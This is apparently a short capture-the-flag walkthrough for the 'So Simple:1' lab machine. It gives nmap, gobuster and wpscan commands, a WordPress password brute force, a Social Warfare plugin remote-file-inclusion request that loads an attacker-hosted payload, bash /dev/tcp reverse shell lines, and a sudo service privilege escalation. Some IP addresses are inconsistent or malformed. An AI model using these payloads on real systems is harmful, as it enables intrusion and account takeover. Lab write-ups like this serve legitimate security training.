

# So Simple:1

## Recon
1. Scanning

`nmap -sn -oA hostDiscovery 192.168.10.*`   -**used VirtualBox**

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 192.168.10.52`

2. Enumeration

`gobuster dir -u http://192.168.10.52/ -w /usr/share/wordlists/dirb/common.txt`

`gobuster dir -u http://192.168.10.52/wordpress -w /usr/share/wordlists/dirb/common.txt`

`wpscan --url "http://192.168.10.52/wordpress" --enumerate`

now we brute forcing with username `max`

wpscan --url `"http://192.168.10.52/wordpress" -U max -p /usr/share/wordlist/rockyou.txt/`

**wordpress** has its own vuln database

search for ‘social warfare’ exploit
also we get some intersting

3. Gaining Access

    1. setup the http server on my side

        `python3 -m http.server 80`

`http://192.168.10.52/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.10.102/payload.txt`

`bash -i >& /dev/tcp/192.168.56.102/8080 0>&1`

`<pre>system("bash -c 'bash -i >& /dev/tcp/192.168..102/8080 0>&1'")</pre>`

just refresh the webpage and get the shell

above string decoded but nothing get

we get max user's ssh key and logged in,

Here we get the 1st user flag

with help of `'usr/sbin/service'` we used GTFOBins

`sudo -u steven /usr/sbin/service ../../bin/bash`

and we get the steven shell.. also get the user flag.

 root flag is..

 
